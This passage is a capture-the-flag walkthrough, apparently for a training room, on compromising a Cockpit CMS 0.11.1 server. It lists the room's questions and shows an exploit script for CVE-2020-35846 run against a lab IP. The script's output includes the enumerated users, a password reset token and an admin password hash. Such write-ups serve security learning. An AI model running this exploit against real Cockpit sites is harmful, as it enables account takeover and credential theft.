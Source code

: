 - [ ] What is the name of the Content Management System (CMS) installed on the server?
- [ ] What is the version of the Content Management System (CMS) installed on the server?
- [ ] What is the path that allow user enumeration?
- [ ] How many users can you identify when you reproduce the user enumeration attack?
- [ ] What is the path that allows you to change user account passwords?
- [ ] Compromise the Content Management System (CMS). What is Skidy's email.
- [ ] What is the web flag?
- [ ] Compromise the machine and enumerate collections in the document database installed in the server. What is the flag in the database?
- [ ] What is the user.txt flag?
- [ ] What is the CVE number for the vulnerability affecting the binary assigned to the system user? Answer format: CVE-0000-0000
- [ ] What is the utility used to create the PoC file?
- [ ] Escalate your privileges. What is the flag in root.txt?

## <b>Enumeration</b> 

Based on the Nmap scan results, I discovered that Port 80 is open on a server. Upon visiting the website, I found out that it was using the `'Cockpit'` CMS, and from the source code, I identified the CMS version as `0.11.1`.

<img id="image1" />

#### Source Code:

```
view-source:http://10.10.168.33/storage/tmp/4cc5a0d2487ec7f4c75b0cc9115bf601.js?ver=0.11.1
```

- [x] What is the name of the Content Management System (CMS) installed on the server? {==**Cockpit**==}
- [x] What is the version of the Content Management System (CMS) installed on the server? {==**0.11.1**==}

To gather more information, I did some research using `Searchsploit` and found a Python script that could be used for `'Username Enumeration & Password Reset'` on this version of the CMS. This code sends a HTTP request to `/auth/check` to identify usernames and `/auth/resetpassword` to reset the password. 

<img id="image2" />

By running the script, I was able to find `4 usernames`, and I also managed to discover the email address of a user `Skidy`.

#### Python Output:

```py
python3 50185.py -u http://$IP
[+] http://10.10.168.33: is reachable
[-] Attempting Username Enumeration (CVE-2020-35846) : 

[+] Users Found : ['admin', 'darkStar7471', 'skidy', 'ekoparty']

[-] Get user details For : admin
[+] Finding Password reset tokens
         Tokens Found : ['rp-4c35308ff3bd8e12a91fd7ed16b2304764ba486b8b505']
[+] Obtaining user information 
-----------------Details--------------------
         [*] user : admin
         [*] name : Admin
         [*] email : admin@yourdomain.de
         [*] active : True
         [*] group : admin
         [*] password : $2y$10$dChrF2KNbWuib/5lW1ePiegKYSxHeqWwrVC.FN5kyqhIsIdbtnOjq
         [*] i18n : en
         [*] _created : 1621655201
```